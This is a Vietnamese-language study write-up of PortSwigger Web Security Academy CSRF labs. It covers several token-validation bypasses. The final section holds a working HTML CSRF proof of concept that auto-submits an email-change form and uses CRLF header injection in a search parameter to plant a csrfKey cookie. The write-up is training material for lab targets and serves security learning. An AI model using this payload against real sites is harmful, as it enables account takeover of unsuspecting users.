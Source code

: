 3 loại:

- token
- loại cookie (lax, strict, )
- Referer

## CSRF where token validation depends on request method

Context: ở đây khi dùng `POST` để đổi email thì cần có thêm `csrf` token, nhưng khi đổi sang `GET` thì không cần `csrf` token

Từ đây ta tạo csrf form để gửi đi. 

## CSRF where token validation depends on token being present

Ở bài này việc xóa đi csrf token trong POST không ảnh hưởng đến kết quả.

Từ đây ta tạo payload.

## CSRF where token is not tied to user session

Context: 

1. Csrf token không thể xóa, hay sử dụng trùng nhau
2. Email trùng với tài khoản khác sẽ không hợp lệ
3. CSRF token chỉ dùng được 1 lần, ko thể dùng lại
4. khi lấy csrf token của phiên đăng nhập của `Carlos` để gửi với change-email của `weiner` thì vẫn thành công do chưa sử dụng lần nào và nó tạo ra cho 1 phiên.

Từ đây ta đăng nhập 1 tài khoản và lấy csrf token cho phiên đó để gửi cho victim.

## CSRF where token is tied to non-session cookie

1. Khi update thì sẽ có cookie `csrfKey` và `csrf` token ở form, và 2 cái này tồn tại theo cặp, dù đổi người dùng thì nếu thay đổi cả 2 giá trị này theo cặp thì vẫn có thể request thành công. 

=> Ta cần đổi cookie `csrfKey` của victim và rồi từ đó có thể dùng `csrf` token của mình

Mặt khác, khi dùng chức năng search, thông tin sẽ được phản hồi ở `Set-cookie` ở response, vậy nên ta sẽ cố gắng chèn thêm `Set-cookie` ở response bằng cách dùng `%0d%0a` là `\r\n`

Payload: 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec003503cf58e580948f3d0053007b.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="4ZTQjukf9UX8toqgbTThbm8F16k9F2jO" />
        <input type="submit" value="Submit request" />
    </form>


    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
